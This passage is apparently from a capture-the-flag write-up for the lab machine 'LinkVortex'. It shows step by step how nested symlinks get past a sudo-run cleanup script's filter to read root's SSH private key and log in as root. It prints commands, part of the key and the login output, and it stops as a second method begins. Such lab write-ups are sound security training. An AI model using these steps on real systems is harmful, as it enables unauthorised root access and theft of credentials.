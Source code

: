 The way I see it there's 2 different vulnerabilities I found, both of wich unfortunately unintended.
## PrivEsc 1 : Links go brrrr
We can see there's some filtering with the links to ensure the `etc` and `root` directories aren't being linked. We can bypass this by nesting our links.
Let's first create a link to the root ssh key.
```
bob@linkvortex:~/w1ld$ ln -s /root/.ssh/id_rsa /home/bob/w1ld/ssh
bob@linkvortex:~/w1ld$ ls -la
total 8
drwxrwxr-x 2 bob bob 4096 Apr 13 08:30 .
drwxr-x--- 4 bob bob 4096 Apr 13 08:29 ..
lrwxrwxrwx 1 bob bob   17 Apr 13 08:30 ssh -> /root/.ssh/id_rsa
```
Next let's create a symlink to this file as a png.
```
bob@linkvortex:~/w1ld$ ln -s /home/bob/w1ld/ssh /home/bob/w1ld/w1ld.png
bob@linkvortex:~/w1ld$ ls -la
total 8
drwxrwxr-x 2 bob bob 4096 Apr 13 08:30 .
drwxr-x--- 4 bob bob 4096 Apr 13 08:29 ..
lrwxrwxrwx 1 bob bob   17 Apr 13 08:30 ssh -> /root/.ssh/id_rsa
lrwxrwxrwx 1 bob bob   18 Apr 13 08:30 w1ld.png -> /home/bob/w1ld/ssh
```
Now let's run the script ensuring `CHECK_CONTENT` is set to true.
```
bob@linkvortex:~/w1ld$ CHECK_CONTENT='true' sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
Link found [ w1ld.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
V1xkmWhQWEvCiI22UjIoFkI0oOfDrm6ZQTyZF99AqBVcwGCjEA67eEKt/5oejN5YgL7Ipu
<SNIP>
```
Copying this back to our attacking machine and setting the correct permissions allows us to ssh as root onto the machine.
```bash
ssh root@linkvortex.htb -i root_id_rsa
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
root@linkvortex:~#
```
## PrivEsc 2: Check Content Boogaloo
Looking back at the script it seems that if the symlink is valid it checks for `CHECK_CONTENT` directly within the shell.
```bash
else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
```